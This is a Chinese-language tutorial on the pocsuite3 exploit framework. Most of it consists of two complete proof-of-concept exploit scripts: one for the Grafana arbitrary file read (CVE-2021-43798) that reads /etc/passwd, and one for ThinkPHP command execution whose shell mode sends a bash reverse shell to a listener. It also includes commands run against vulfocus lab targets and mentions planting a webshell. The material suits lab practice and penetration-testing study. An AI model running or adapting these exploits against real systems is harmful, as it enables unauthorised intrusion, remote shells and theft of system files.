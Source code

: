 **pocsuite3简单使用**

pocsuite3是由知道创宇404实验室开发维护的开源远程漏洞测试和概念验证开发框架，基于python3。poc脚本可以运行在 `attack`,`verify`, `shell` 等模式下。

官方链接`https://pocsuite.org/`

安装`pip3 install -i https://pypi.tuna.tsinghua.edu.cn/simple pocsuite3`

建议源码安装

```shell
wget https://github.com/knownsec/pocsuite3/archive/master.zip
unzip master.zip
cd pocsuite3-master
pip3 install -r requirements.txt
python3 setup.py install
```

验证安装是否成功，进入pocsuite3目录下`python3 cli.py -h`

也可以`pocsuite -r poc.py -u url`

**简单利用**

vulfocus开启一个thinkphp环境（CVE-2018-1002015）`https://vulfocus.cn/`

![image-20220903142303388](images/image-20220903142303388.png)

然后`python cli.py -r pocs/thinkphp_rce.py -u "123.58.224.8:3163" --attack`可以看到写入了小马。

**poc开发demo**

`https://pocsuite.org/guide/poc-demo-cve-2019-15107.html`

**CVE-2021-43798—poc开发**

靶机链接`https://vulfocus.cn/#/dashboard`

创建一个目录并进入，输入命令`pocsuite --new`初始化一个poc文件，其中的一些选项直接回车默认，只需要选中0任意文件读取即可。

稍微改动代码

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
)

minimum_version_required('1.9.10')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = ''
    vulDate = '2022-09-03'
    createDate = '2022-09-03'
    updateDate = '2022-09-03'
    references = []
    name = 'Pre-Auth Arbitrary File Read'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Arbitrary File Read'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['filepath'] = OptString('/etc/passwd', description='The full path to the file to read')
        return o

    def _exploit(self, param=''):
        if not self._check(dork='Grafana'):
            return False
        res = requests.get({self.url}/public/plugins/grafana/../../../../../../../..{param})
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        param = '/etc/passwd'
        res = self._exploit(param)
        if res and ':/bin/' in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _attack(self):
        result = {}
        param = self.get_option('filepath')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _shell(self):
        return self._verify()


register_poc(DemoPOC)
```

```
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --verify
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --attack
pocsuite -r 20220903_pre-auth_arbitrary_file_read.py -u http://123.58.224.8:38461 --attack --filepath '/etc/hosts'
```

**CVE-2018-1002015—poc**

vulfocus开启一个thinkphp环境（CVE-2018-1002015）

`pocsuite --new`，选择命令执行

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

from pocsuite3.api import (
    minimum_version_required, POCBase, register_poc, requests, logger,
    OptString, OrderedDict,
    random_str,
    get_listener_ip, get_listener_port, REVERSE_PAYLOAD
)

minimum_version_required('1.9.10')


class DemoPOC(POCBase):
    vulID = '0'
    version = '1'
    author = ''
    vulDate = '2022-09-03'
    createDate = '2022-09-03'
    updateDate = '2022-09-03'
    references = []
    name = 'Pre-Auth Command Execution'
    appPowerLink = ''
    appName = ''
    appVersion = ''
    vulType = 'Command Execution'
    desc = 'Vulnerability description'
    samples = ['']
    install_requires = ['']
    pocDesc = 'User manual of poc'
    dork = {'zoomeye': ''}
    suricata_request = ''
    suricata_response = ''

    def _options(self):
        o = OrderedDict()
        o['cmd'] = OptString('uname -a', description='The command to execute')
        return o

    def _exploit(self, param=''):
        if not self._check(dork=''):
            return False
        # pay attention to r''
        payload = r"/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]="+param
        res = requests.get(self.url+payload)
        logger.debug(res.text)
        return res.text

    def _verify(self):
        result = {}
        flag = random_str(6)
        param = f'echo {flag}'
        res = self._exploit(param)
        if res and flag in res:
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _attack(self):
        result = {}
        param = self.get_option('cmd')
        res = self._exploit(param)
        result['VerifyInfo'] = {}
        result['VerifyInfo']['URL'] = self.url
        result['VerifyInfo'][param] = res
        return self.parse_output(result)

    def _shell(self):
        try:
            self._exploit(REVERSE_PAYLOAD.BASH.format(get_listener_ip(), get_listener_port()))
        except Exception:
            pass


register_poc(DemoPOC)
```

```
pocsuite -r 20220903_pre-auth_command_execution.py -u 123.58.224.8:62796 --attack --cmd 'cat /etc/passwd'
```

